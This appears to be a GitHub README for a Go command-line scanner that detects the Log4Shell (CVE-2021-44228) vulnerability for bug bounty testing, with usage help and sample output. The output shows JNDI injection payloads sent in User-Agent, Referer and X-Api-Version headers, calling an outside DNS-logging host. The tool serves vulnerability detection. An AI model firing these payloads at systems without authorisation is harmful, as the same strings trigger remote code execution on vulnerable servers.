 ## log4shell-looker a log4jshell vulnerability scanner for bug bounty

(Written in Go because, you know, "write once, run anywhere.")

This is a simple tool that can be used to find vulnerable instances of
log4j 1.x and 2.x (CVE-2021-44228) in installations of
Java software such as web applications.

The scan tool currently checks for discover log4shell vulnerability, current feature of tools:  `Cookies` and `Content-Type` and `URL Path`, `User-Agent`


# Using the scanner
```bash
$ go run main.go --help
Usage of main:
  -mode string
        please usage mode [urlpath, header, useragent] (default "[urlpath, header, useragent, cookie, contents]")
  -url string
        please enter you url for scan (default "url")


$ go run main.go -mode=useragent -url=http://127.0.0.1:8080
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  User-Agent:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 0 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  Referer:${jndi:ldap://rfcbd0.dnslog.cn/}
[---] Isn't to vulnerability CVE-2021-44228
#################### 2 ############################
[+++] Your domain generated :  rfcbd0.dnslog.cn
[+++] Your session is :  1s16v8k8fmrmd5rljun51lmur4
[***] Payload :  X-Api-Version:${jndi:ldap://rfcbd0.dnslog.cn/}
[***] DNS log result :  [["rfcbd0.dnslog.cn","172.253.238.4","2021-12-16 14:45:19"]]
[***] Is Vulnerability to CVE-2021-44228 - [critical]
```

# Building from source

Install a [Go compiler](https://golang.org/dl).

Run the following commands in the checked-out repository:
```
go run main.go -mode=header -url=https://www.example.com/
Or
go build -o main
```
(Add the appropriate `.exe` extension on Windows systems, of course.)

# Example 

```bash 
$ go run main.go -mode=header -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/header.PNG)

```bash 
$ go run main.go -mode=useragent -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/user_agent.PNG)

```bash 
$ go run main.go -mode=cookie -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/cookie.PNG)

```bash 
$ go run main.go -mode=urlpath -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/url_path.PNG)

```bash 
$ go run main.go -mode=contents -url=http://127.0.0.1:8080/
```
![Header](https://github.com/ravro-ir/log4shell-looker/blob/main/img/content_type.PNG)



# License

GNU General Public License, version 3

# Author

Ramin Farajpour Cami <<ramin.blackhat@gmail.com>>


